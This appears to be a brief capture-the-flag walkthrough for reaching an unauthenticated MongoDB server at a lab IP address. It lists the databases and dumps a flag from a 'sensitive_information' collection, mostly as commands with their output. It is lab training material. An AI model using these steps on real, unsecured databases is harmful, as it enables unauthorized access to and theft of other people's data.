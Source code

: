 # Mongodb guide

### To connect to MongoDB

`┌──(root㉿kali)-[/opt/mongodb-linux-x86_64-3.4.7/bin]
└─# ./mongo mongodb://10.129.228.30:27017
`

Commands

Show database

`show dbs`

`> show dbs
admin                  0.000GB
config                 0.000GB
local                  0.000GB
sensitive_information  0.000GB
users                  0.000GB
`
Use database

`use sensitive_information`
`> show collections
flag
`

To retrieve the file

`> db.flag.find().pretty()
{
        "_id" : ObjectId("630e3dbcb82540ebbd1748c5"),
        "flag" : "1b6e6fb359e7c40241b6d431427ba6ea"
}
`

